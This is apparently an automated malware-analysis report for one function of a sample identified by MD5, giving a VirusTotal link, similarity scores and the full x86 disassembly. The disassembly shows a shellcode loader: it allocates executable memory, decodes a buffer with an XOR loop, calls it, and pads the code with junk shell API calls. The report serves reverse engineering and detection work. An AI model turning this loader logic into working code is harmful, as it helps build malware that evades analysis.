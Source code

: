 ```yaml
---
layout: post
title:  "main @ 065d95e046989885ac0aa05648eeda39"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** 065d95e046989885ac0aa05648eeda39
- **VirusTotal:** [virustotal.com/gui/file/065d95e046989885ac0aa05648eeda39][virustotal_ref]

# Code Tags
<span class="tag" id="SOCKET">SOCKET</span>
<span class="tag" id="MEMORY">MEMORY</span>
<span class="tag" id="THREAD">THREAD</span>


# Similar Functions

1. [fcn.004034a9][similar_1_ref] (sim.: 0.8778322957292592)
2. [fcn.004034a9][similar_2_ref] (sim.: 0.8778322957292592)
3. [fcn.004034a9][similar_3_ref] (sim.: 0.8778322957292592)
4. [main][similar_4_ref] (sim.: 0.8688216350713369)
5. [fcn.00442a56][similar_5_ref] (sim.: 0.8656516589001694)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
push 0xffffffffffffffff
push 0x43f3b0
mov eax,dword fs:[0]
push eax
sub esp,0x30
push esi
push edi
mov eax,dword[0x45806c]
xor eax,ebp
push eax
lea eax,[ebp-0xc]
mov dword fs:[0],eax
push 0
call dword[sym.imp.ole32.dll_OleInitialize]
push 0x40
push 0x3000
push 0x600
push 0
call dword[sym.imp.KERNEL32.dll_VirtualAlloc]
mov esi,eax
call fcn.0040c310
test esi,esi
je 0x40514e
push 0x600
test eax,eax
je 0x405143
push eax
push esi
call fcn.00428db0
add esp,0xc
jmp 0x40515e
push 0
push esi
call fcn.00429920
add esp,0xc
call fcn.0042d1b1
mov dword[eax],0x16
call fcn.0042d5b6
mov eax,2
xor byte[eax+esi],0xbe
add eax,3
cmp eax,0x600
jb 0x405163
push 0xc4a00
push section..vxc
call esi
add esp,8
push 0
push 0
push 0
call dword[sym.imp.SHELL32.dll_SHGetRealIDL]
push 0
push 0
call dword[sym.imp.SHELL32.dll_SHFindFiles]
push 0
push 0
push 0
call dword[sym.imp.SHELL32.dll_SHAddFromPropSheetExtArray]
push 0
push 0
push 0
call dword[sym.imp.SHELL32.dll_Shell_GetCachedImageIndexW]
push 0
push 0
call dword[sym.imp.SHELL32.dll_DoEnvironmentSubstW]
push 0
call dword[sym.imp.SHELL32.dll_DragFinish]
push 0
push 0
push 0
call dword[sym.imp.USER32.dll_GetWindowModuleFileNameW]
push 0x20
call fcn.004108b5
add esp,4
mov edi,eax
mov ecx,edi
call fcn.00402e70
mov esi,eax
call fcn.004129f0
mov dword[ebp-0x1c],esi
mov dword[ebp-0x18],eax
test esi,esi
jne 0x405454
lea eax,[ebp-0x28]
mov dword[edi+0x1c],esi
mov dword[edi+0x18],eax
lea ecx,[ebp-0x24]
push 1
mov dword[ebp-0x28],edi
call fcn.00405780
push 0x60
call fcn.004108b5
add esp,4
lea ecx,[ebp-0x28]
push 0xffffffffffffffff
push ecx
mov ecx,eax
call fcn.004034b0
mov ecx,dword[ebp-0x28]
mov esi,eax
push esi
call fcn.00408c70
mov dword[ebp-0x20],esi
lock inc dword[esi+0x18]
push 4
call fcn.004108b5
mov esi,eax
add esp,4
lea eax,[ebp-0x28]
mov dword[esi],eax
lea eax,[ebp-0x38]
push eax
call fcn.0040d888
add esp,4
test eax,eax
je 0x40525d
push eax
call fcn.0040d08f
add esp,4
lea eax,[ebp-0x34]
push 1
push eax
call fcn.0040d57e
add esp,8
test eax,eax
je 0x405278
push eax
call fcn.0040d08f
add esp,4
push dword[ebp-0x34]
mov byte[ebp-0x30],0
call fcn.0040d5d1
add esp,4
test eax,eax
je 0x405294
push eax
call fcn.0040d08f
add esp,4
lea eax,[ebp-0x3c]
mov dword[ebp-0x3c],0x44f39c
push eax
lea eax,[ebp-0x14]
mov dword[ebp-0x2c],esi
push 0x402000
push eax
call fcn.0040d1a2
add esp,0xc
mov ecx,1
cmp eax,4
cmovne ecx,eax
test ecx,ecx
je 0x4052cb
push ecx
call fcn.0040d08f
add esp,4
cmp byte[ebp-0x30],0
jne 0x4052f2
push dword[ebp-0x34]
push dword[ebp-0x38]
call fcn.0040d8da
add esp,8
test eax,eax
je 0x4052ec
push eax
call fcn.0040d08f
add esp,4
cmp byte[ebp-0x30],0
je 0x4052d1
mov eax,dword[ebp-0x2c]
test eax,eax
je 0x405304
push 4
push eax
call fcn.004108a7
add esp,8
mov dword[ebp-4],0
mov esi,dword[ebp-0x34]
mov edi,dword[ebp-0x38]
push esi
call fcn.0040d5f6
add esp,4
test eax,eax
je 0x405327
push eax
call fcn.0040d08f
add esp,4
push esi
call fcn.0040d528
add esp,4
push edi
call fcn.0040d843
add esp,4
mov dword[ebp-4],0xffffffff
lea ecx,[ebp-0x28]
call fcn.00404a50
mov ecx,dword[ebp-0x20]
call fcn.004038a0
mov eax,dword[ebp-0x10]
test eax,eax
jne 0x405372
push 1
call fcn.0040d0bc
mov eax,dword[ebp-0x10]
add esp,4
test eax,eax
jne 0x405372
push 1
call fcn.0040d0bc
add esp,4
call sub.KERNEL32.dll_GetCurrentThreadId
mov ecx,dword[ebp-0x10]
cmp ecx,eax
jne 0x40538b
push 5
call fcn.0040d0bc
mov ecx,dword[ebp-0x10]
add esp,4
push 0
push ecx
push dword[ebp-0x14]
call fcn.0040d153
add esp,0xc
test eax,eax
je 0x4053a7
push 2
call fcn.0040d0bc
add esp,4
mov dword[ebp-0x14],0
mov dword[ebp-0x10],0
or esi,0xffffffff
mov dword[ebp-4],1
mov ecx,dword[ebp-0x20]
mov eax,esi
lock xadd dword[ecx+0x18],eax
jne 0x4053d0
call fcn.004038a0
lock xadd dword[0x45c408],esi
dec esi
jne 0x4053e1
call dword[sym.imp.WS2_32.dll_WSACleanup]
mov dword[ebp-4],2
mov edi,dword[ebp-0x28]
mov esi,dword[edi+0x1c]
test esi,esi
je 0x405403
mov eax,dword[esi]
mov ecx,esi
call dword[eax+4]
mov esi,dword[esi+0x10]
test esi,esi
jne 0x4053f2
mov edi,dword[ebp-0x28]
mov ecx,dword[edi+0x1c]
test ecx,ecx
je 0x405429
nop word[eax+eax]
mov esi,dword[ecx+0x10]
test ecx,ecx
je 0x40541d
mov eax,dword[ecx]
push 1
call dword[eax]
mov dword[edi+0x1c],esi
mov ecx,esi
test esi,esi
jne 0x405410
mov edi,dword[ebp-0x28]
test edi,edi
je 0x40543f
push edi
call dword[sym.imp.KERNEL32.dll_DeleteCriticalSection]
push 0x20
push edi
call fcn.004108a7
add esp,8
xor eax,eax
mov ecx,dword[ebp-0xc]
mov dword fs:[0],ecx
pop ecx
pop edi
pop esi
mov esp,ebp
pop ebp
ret 0x10
mov edx,str.mutex
lea ecx,[ebp-0x1c]
call fcn.00402be0
int3
{% endhighlight %}


[similar_1_ref]: /report/fcn.004034a9@912f1d013a0d6151bc7a7cef6da1b2a0
[similar_2_ref]: /report/fcn.004034a9@152885a790b99953ce23874f0947b7bd
[similar_3_ref]: /report/fcn.004034a9@fb9b7d22bc1c143ac66b0575cbdd088d
[similar_4_ref]: /report/main@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_5_ref]: /report/fcn.00442a56@e16f74a2849182d98050864255e902f8
[virustotal_ref]: https://www.virustotal.com/gui/file/065d95e046989885ac0aa05648eeda39